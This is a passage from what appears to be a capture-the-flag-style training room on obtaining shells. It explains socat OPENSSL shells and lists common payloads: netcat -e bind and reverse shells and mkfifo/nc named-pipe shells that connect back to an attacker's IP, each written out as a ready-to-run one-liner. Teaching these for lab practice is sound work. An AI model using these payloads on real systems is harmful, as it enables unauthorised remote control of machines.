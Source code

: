 socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:


This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

# Common Shell Payloads 

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the nc.exe Windows version included with Kali at /usr/share/windows-resources/binaries, and the version used in Kali itself: netcat-traditional) there is a -e option which allows you to execute a process on connection. For example, as a listener:

nc -lvnp <PORT> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with nc <LOCAL-IP> <PORT> -e /bin/bash would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

    The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


A very similar command can be used to send a netcat reverse shell:

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.


When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.
